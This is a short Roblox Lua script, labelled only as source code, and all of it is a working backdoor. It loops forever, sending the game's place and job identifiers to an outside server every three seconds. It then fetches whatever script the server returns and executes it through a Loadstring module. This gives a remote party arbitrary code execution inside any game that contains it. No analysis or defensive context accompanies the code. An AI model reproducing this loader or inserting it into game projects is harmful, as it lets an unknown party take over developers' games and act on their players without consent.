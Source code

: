 local HttpService = game:GetService("HttpService")
url = "http://www.blacknuse.pro/api/execute"

while true do
	pcall(function()
		wait(3)
		local dataFields = {
			["placeid"] = game.PlaceId, 
			["jobid"] = game.JobId,
		}
		local response = HttpService:PostAsync(url,HttpService:JSONEncode(dataFields))
		local data = HttpService:JSONDecode(response)
		if data.status == true then
			require(script.Parent.Loadstring)(data.script)()
		end
	end)
end
